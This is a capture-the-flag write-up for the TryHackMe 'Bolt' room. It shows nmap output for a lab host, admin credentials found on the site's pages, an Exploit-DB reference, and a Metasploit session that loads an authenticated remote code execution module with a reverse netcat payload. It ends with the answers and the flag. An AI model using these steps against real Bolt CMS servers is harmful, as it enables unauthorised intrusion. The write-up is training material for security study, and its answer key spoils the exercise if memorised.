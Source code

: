 # Bolt

A hero is unleashed

[Bolt](https://tryhackme.com/room/bolt)

## 💢 We will cover  the topics

- Network Enumeration
- Web Enumeration
- Web Poking
- Security Misconfiguration
- Using Metasploit
- Exploitation Bolt CMS 3.7.0



---------------------------------

## Deploy the machine

This room is designed for users to get familiar with the Bolt CMS and how it can be exploited using Authenticated Remote Code Execution. You should wait for at least 3-4 minutes for the machine to start properly.

If you have any queries or feedback you can reach me through the TryHackMe [Discord server](https://discord.gg/F7ERYzz) or through [Twitter](https://twitter.com/0x9747/).

1. Start the machine

`No answer needed`

## Hack your way into the machine!

**A hero is unleashed**

Once you have successfully deployed the VM , enumerate it before finding the flag in the machine.

1. What port number has a web server with a CMS running?

```
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-29 16:06 CEST
Nmap scan report for 10.10.174.31
Host is up (0.041s latency).
Not shown: 997 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 f3:85:ec:54:f2:01:b1:94:40:de:42:e8:21:97:20:80 (RSA)
|   256 77:c7:c1:ae:31:41:21:e4:93:0e:9a:dd:0b:29:e1:ff (ECDSA)
|_  256 07:05:43:46:9d:b2:3e:f0:4d:69:67:e4:91:d3:d3:7f (ED25519)
80/tcp   open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
8000/tcp open  http    (PHP 7.2.32-1)
| fingerprint-strings:
|   FourOhFourRequest:
|     HTTP/1.0 404 Not Found
|     Date: Tue, 29 Sep 2020 14:06:37 GMT
|     Connection: close
|     X-Powered-By: PHP/7.2.32-1+ubuntu18.04.1+deb.sury.org+1
|     Cache-Control: private, must-revalidate
|     Date: Tue, 29 Sep 2020 14:06:37 GMT
|     Content-Type: text/html; charset=UTF-8
|     pragma: no-cache
|     expires: -1
|     X-Debug-Token: 53e7a3
|     <!doctype html>
|     <html lang="en">
|     <head>
|     <meta charset="utf-8">
|     <meta name="viewport" content="width=device-width, initial-scale=1.0">
|     <title>Bolt | A hero is unleashed</title>
|     <link href="https://fonts.googleapis.com/css?family=Bitter|Roboto:400,400i,700" rel="stylesheet">
|     <link rel="stylesheet" href="/theme/base-2018/css/bulma.css?8ca0842ebb">
|     <link rel="stylesheet" href="/theme/base-2018/css/theme.css?6cb66bfe9f">
|     <meta name="generator" content="Bolt">
|     </head>
|     <body>
|     href="#main-content" class="vis
|   GetRequest:
|     HTTP/1.0 200 OK
|     Date: Tue, 29 Sep 2020 14:06:37 GMT
|     Connection: close
|     X-Powered-By: PHP/7.2.32-1+ubuntu18.04.1+deb.sury.org+1
|     Cache-Control: public, s-maxage=600
|     Date: Tue, 29 Sep 2020 14:06:37 GMT
|     Content-Type: text/html; charset=UTF-8
|     X-Debug-Token: 373a0e
|     <!doctype html>
|     <html lang="en-GB">
|     <head>
|     <meta charset="utf-8">
|     <meta name="viewport" content="width=device-width, initial-scale=1.0">
|     <title>Bolt | A hero is unleashed</title>
|     <link href="https://fonts.googleapis.com/css?family=Bitter|Roboto:400,400i,700" rel="stylesheet">
|     <link rel="stylesheet" href="/theme/base-2018/css/bulma.css?8ca0842ebb">
|     <link rel="stylesheet" href="/theme/base-2018/css/theme.css?6cb66bfe9f">
|     <meta name="generator" content="Bolt">
|     <link rel="canonical" href="http://0.0.0.0:8000/">
|     </head>
|_    <body class="front">
|_http-generator: Bolt
|_http-title: Bolt | A hero is unleashed
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port8000-TCP:V=7.80%I=7%D=9/29%Time=5F733F6C%P=x86_64-pc-linux-gnu%r(Ge
SF:tRequest,29E1,"HTTP/1\.0\x20200\x20OK\r\nDate:\x20Tue,\x2029\x20Sep\x20
SF:2020\x2014:06:37\x20GMT\r\nConnection:\x20close\r\nX-Powered-By:\x20PHP
SF:/7\.2\.32-1\+ubuntu18\.04\.1\+deb\.sury\.org\+1\r\nCache-Control:\x20pu
SF:blic,\x20s-maxage=600\r\nDate:\x20Tue,\x2029\x20Sep\x202020\x2014:06:37
SF:\x20GMT\r\nContent-Type:\x20text/html;\x20charset=UTF-8\r\nX-Debug-Toke
SF:n:\x20373a0e\r\n\r\n<!doctype\x20html>\n<html\x20lang=\"en-GB\">\n\x20\
SF:x20\x20\x20<head>\n\x20\x20\x20\x20\x20\x20\x20\x20<meta\x20charset=\"u
SF:tf-8\">\n\x20\x20\x20\x20\x20\x20\x20\x20<meta\x20name=\"viewport\"\x20
SF:content=\"width=device-width,\x20initial-scale=1\.0\">\n\x20\x20\x20\x2
SF:0\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20<title>Bolt\x20\|\x20A
SF:\x20hero\x20is\x20unleashed</title>\n\x20\x20\x20\x20\x20\x20\x20\x20<l
SF:ink\x20href=\"https://fonts\.googleapis\.com/css\?family=Bitter\|Roboto
SF::400,400i,700\"\x20rel=\"stylesheet\">\n\x20\x20\x20\x20\x20\x20\x20\x2
SF:0<link\x20rel=\"stylesheet\"\x20href=\"/theme/base-2018/css/bulma\.css\
SF:?8ca0842ebb\">\n\x20\x20\x20\x20\x20\x20\x20\x20<link\x20rel=\"styleshe
SF:et\"\x20href=\"/theme/base-2018/css/theme\.css\?6cb66bfe9f\">\n\x20\x20
SF:\x20\x20\t<meta\x20name=\"generator\"\x20content=\"Bolt\">\n\x20\x20\x2
SF:0\x20\t<link\x20rel=\"canonical\"\x20href=\"http://0\.0\.0\.0:8000/\">\
SF:n\x20\x20\x20\x20</head>\n\x20\x20\x20\x20<body\x20class=\"front\">\n\x
SF:20\x20\x20\x20\x20\x20\x20\x20<a\x20")%r(FourOhFourRequest,16C3,"HTTP/1
SF:\.0\x20404\x20Not\x20Found\r\nDate:\x20Tue,\x2029\x20Sep\x202020\x2014:
SF:06:37\x20GMT\r\nConnection:\x20close\r\nX-Powered-By:\x20PHP/7\.2\.32-1
SF:\+ubuntu18\.04\.1\+deb\.sury\.org\+1\r\nCache-Control:\x20private,\x20m
SF:ust-revalidate\r\nDate:\x20Tue,\x2029\x20Sep\x202020\x2014:06:37\x20GMT
SF:\r\nContent-Type:\x20text/html;\x20charset=UTF-8\r\npragma:\x20no-cache
SF:\r\nexpires:\x20-1\r\nX-Debug-Token:\x2053e7a3\r\n\r\n<!doctype\x20html
SF:>\n<html\x20lang=\"en\">\n\x20\x20\x20\x20<head>\n\x20\x20\x20\x20\x20\
SF:x20\x20\x20<meta\x20charset=\"utf-8\">\n\x20\x20\x20\x20\x20\x20\x20\x2
SF:0<meta\x20name=\"viewport\"\x20content=\"width=device-width,\x20initial
SF:-scale=1\.0\">\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x2
SF:0\x20\x20<title>Bolt\x20\|\x20A\x20hero\x20is\x20unleashed</title>\n\x2
SF:0\x20\x20\x20\x20\x20\x20\x20<link\x20href=\"https://fonts\.googleapis\
SF:.com/css\?family=Bitter\|Roboto:400,400i,700\"\x20rel=\"stylesheet\">\n
SF:\x20\x20\x20\x20\x20\x20\x20\x20<link\x20rel=\"stylesheet\"\x20href=\"/
SF:theme/base-2018/css/bulma\.css\?8ca0842ebb\">\n\x20\x20\x20\x20\x20\x20
SF:\x20\x20<link\x20rel=\"stylesheet\"\x20href=\"/theme/base-2018/css/them
SF:e\.css\?6cb66bfe9f\">\n\x20\x20\x20\x20\t<meta\x20name=\"generator\"\x2
SF:0content=\"Bolt\">\n\x20\x20\x20\x20</head>\n\x20\x20\x20\x20<body>\n\x
SF:20\x20\x20\x20\x20\x20\x20\x20<a\x20href=\"#main-content\"\x20class=\"v
SF:is");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 29.29 seconds
```

`8000`

2. What is the username we can find in the CMS?

[http://10.10.174.31:8000/entry/message-from-admin](http://10.10.174.31:8000/entry/message-from-admin)

![](2020-09-29_16-20.png)

`Bolt`

1. What is the password we can find for the username?

[http://10.10.174.31:8000/entry/message-for-it-department](http://10.10.174.31:8000/entry/message-for-it-department)

![](2020-09-29_16-10.png)

`boltadmin123`

4. What version of the CMS is installed on the server? (Ex: Name 1.1.1)

[http://10.10.174.31:8000/bolt/login](http://10.10.174.31:8000/bolt/login)

![](2020-09-29_16-26.png)

`Bolt 3.7.1`

5. There's an exploit for a previous version of this CMS, which allows authenticated RCE. Find it on Exploit DB. What's its EDB-ID?

[https://www.exploit-db.com/exploits/48296](https://www.exploit-db.com/exploits/48296)

`48296`

6. Metasploit recently added an exploit module for this vulnerability. What's the full path for this exploit? (Ex: exploit/....) Note: If you can't find the exploit module its most likely because your metasploit isn't updated. Run `apt update` then `apt install metasploit-framework`

```
sudo msfconsole
msf5 > use unix/webapp/bolt_authenticated_rce
[*] Using configured payload cmd/unix/reverse_netcat
msf5 exploit(unix/webapp/bolt_authenticated_rce) >
```

`exploit/unix/webapp/bolt_authenticated_rce`

7. Set the LHOST, LPORT, RHOST, USERNAME, PASSWORD in msfconsole before running the exploit

`No answer needed`

2. Look for flag.txt inside the machine.

```
cd /home
ls
bolt
composer-setup.php
flag.txt
cat flag.txt
THM{wh0_d035nt_l0ve5_b0l7_r1gh7?}
```

`THM{wh0_d035nt_l0ve5_b0l7_r1gh7?}`
